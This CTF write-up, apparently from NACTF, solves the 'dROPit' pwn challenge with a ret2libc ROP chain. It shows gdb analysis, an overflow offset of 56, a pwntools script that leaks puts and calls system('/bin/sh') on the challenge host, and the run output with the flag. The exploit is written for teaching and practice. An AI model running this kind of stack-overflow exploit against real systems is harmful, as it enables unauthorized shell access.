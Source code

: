 # dROPit

## Task

You're on your own this time. Can you get a shell?

nc challenges.ctfd.io 30261

Hint: https://libc.rip

File: dropit

## Solution

```bash
$ file dropit
dropit: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d88dcfc6ecf55a474a7d461e14648e545a0522fa, for GNU/Linux 3.2.0, not stripped
$ checksec dropit
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

Like the name implies, we have to use ROP.

It was my first time doing this successfully and I struggled for a while until I found this very good tutorial: https://gr4n173.github.io/2020/07/11/ret2libc.html

You should definitely read it if you don't know what ROP is or how to pull it of.

I liked it very much. I have stored these files in the [dropit-files](dropit-files) folder if you want to try it yourself.

What we basically do is:

 - overflow the buffer
 - use a gadget to move the address of `puts@got` into `rdi`
 - use a function from the binary `puts@plt` to leak that address
 - return to `main` to read the adjusted payload

Step 1:

```nasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:     push   rbp
   0x0000000000401147 <+1>:     mov    rbp,rsp
   0x000000000040114a <+4>:     sub    rsp,0x30
   0x000000000040114e <+8>:     mov    rax,QWORD PTR [rip+0x2ebb]        # 0x404010 <stdout@@GLIBC_2.2.5>
   0x0000000000401155 <+15>:    mov    ecx,0x0
   0x000000000040115a <+20>:    mov    edx,0x2
   0x000000000040115f <+25>:    mov    esi,0x0
   0x0000000000401164 <+30>:    mov    rdi,rax
   0x0000000000401167 <+33>:    call   0x401050 <setvbuf@plt>
   0x000000000040116c <+38>:    mov    edi,0x402004
   0x0000000000401171 <+43>:    call   0x401030 <puts@plt>
   0x0000000000401176 <+48>:    mov    rdx,QWORD PTR [rip+0x2ea3]        # 0x404020 <stdin@@GLIBC_2.2.5>
   0x000000000040117d <+55>:    lea    rax,[rbp-0x30]
   0x0000000000401181 <+59>:    mov    esi,0x64
   0x0000000000401186 <+64>:    mov    rdi,rax
   0x0000000000401189 <+67>:    call   0x401040 <fgets@plt>
   0x000000000040118e <+72>:    mov    eax,0x0
   0x0000000000401193 <+77>:    leave
   0x0000000000401194 <+78>:    ret
End of assembler dump.
```

We call `char *fgets(char *s, int size, FILE *stream)` with `size = 0x64` but our stack is only `0x30`. Let's create a pattern and set a breakpoint at `<+78>`.

```nasm
gdb-peda$ b *0x0000000000401194
Breakpoint 1 at 0x401194
gdb-peda$ pattern create 100 pattern.txt
Writing pattern of 100 chars to filename "pattern.txt"
gdb-peda$ r < pattern.txt
Breakpoint 1, 0x0000000000401194 in main ()
gdb-peda$ info register rsp
rsp            0x7fffffffe1f8      0x7fffffffe1f8
gdb-peda$ x/s 0x7fffffffe1f8
0x7fffffffe1f8: "AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA"
gdb-peda$ pattern offset "AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA"
AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA found at offset: 56
```

We could now use `dumprop` to display our possible gadgets, but `pwntools` can handle that for us as well. We also need the `puts@plt` address and `puts@got`. While we are there let's get `main` too:

```nasm
gdb-peda$ dumprop binary "pop rdi"
Warning: this can be very slow, do not run for large memory range
Writing ROP gadgets to file: dropit-rop.txt ...
0x401203: pop rdi; ret
gdb-peda$ info functions main
All functions matching regular expression "main":

Non-debugging symbols:
0x0000000000  main
gdb-peda$ info functions puts@plt
All functions matching regular expression "puts@plt":

Non-debugging symbols:
0x0000000000401030  puts@plt
gdb-peda$ readelf
...
.got = 0x403fb0
...
gdb-peda$ x/8a 0x403fb0
0x403fb0:       0x403dc0        0x0
0x403fc0:       0x0     0x7ffff7e4d380 <puts>
```

Finding the `got` address in gdb can be tricky, a better way is `readelf`:

```bash
$ readelf --relocs dropit

Relocation section '.rela.dyn' at offset 0x4e8 contains 6 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000403fe0  000100000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_deregisterTM[...] + 0
000000403fe8  000300000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000403ff0  000500000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000403ff8  000700000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_registerTMCl[...] + 0
000000404010  000800000005 R_X86_64_COPY     0000000000404010 stdout@GLIBC_2.2.5 + 0
000000404020  000900000005 R_X86_64_COPY     0000000000404020 stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x578 contains 3 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000403fc8  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000403fd0  000400000007 R_X86_64_JUMP_SLO 0000000000000000 fgets@GLIBC_2.2.5 + 0
000000403fd8  000600000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
```

We now have everything we need to leak the libc address of `puts`. We then can identify the libc version via https://libc.rip and continue coding.

But let's do it with pwntools. This is mainly the code from the tutorial mentioned before, but written by me step by step:

```python
#!/usr/bin/env python2
from pwn import *
import struct
import binascii

elf = ELF("./dropit")
rop = ROP(elf)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0] # 0x401203
PUTS_GOT = elf.got['puts'] # 0x403fc8
PUTS_PLT = elf.plt['puts'] # 0x401030
MAIN = elf.symbols['main'] # 0x401146

info("pop rdi;ret: %s" % hex(POP_RDI))
info("puts@got: %s" % hex(PUTS_GOT))
info("puts@plt: %s" % hex(PUTS_PLT))
info("main: %s" % hex(MAIN))

payload  = 'A' * 56
payload += p64(POP_RDI)
payload += p64(PUTS_GOT)
payload += p64(PUTS_PLT)
payload += p64(MAIN)

p = remote('challenges.ctfd.io', 30261)

info(binascii.hexlify(p.recv()))
info(binascii.hexlify(p.recv()))
p.sendline(payload)
puts_remote_raw = p.recv()
info(binascii.hexlify(p.recv()))

leak = struct.unpack("<Q", puts_remote_raw.ljust(8, "\x00"))[0]
info("leaked libc_addr: %s" % hex(leak))
```

With the now leaked address of `puts` we find `libc6_2.32-0ubuntu2_amd64`. We download the binary.

We can load it in our script. If you want to know what the exploit is doing so far, just write the binary to a file and use `r < payload.txt` in `gdb`.

The offset for `/bin/sh` and the `system` function are also on the website, but `pwntools` handles that for us. We just need another gadget to align the stack, otherwise we will have problems.

```python
libc = ELF("./libc6_2.32-0ubuntu2_amd64.so")

libc.address = leak - libc.sym["puts"]
info("libc_base_addr: %s" % hex(libc.address))

BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
RET = rop.find_gadget(['ret'])[0]

info("bin/sh: %s" % hex(BINSH))
info("system: %s" % hex(SYSTEM))
info("ret gadget: %s" % hex(RET))

payload  = 'A' * 56
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BINSH)
payload += p64(SYSTEM)

p.sendline(payload)
p.interactive()
```

If we run it:

```bash
$ python2 pwny.py
[*] 'libc6_2.32-0ubuntu2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './dropit'
[*] pop rdi;ret: 0x401203
[*] puts@got: 0x403fc8
[*] puts@plt: 0x401030
[*] main: 0x401146
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] 3f
[*] 0a
[*] 0a3f0a
[*] leaked libc_addr: 0x7f2781f82d90
[*] libc_base_addr: 0x7f2781f02000
[*] bin/sh: 0x7f27820b041f
[*] system: 0x7f2781f523c0
[*] ret gadget: 0x40101a
[*] Switching to interactive mode
$ ls
dropit
flag.txt
$ cat flag.txt
nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
```
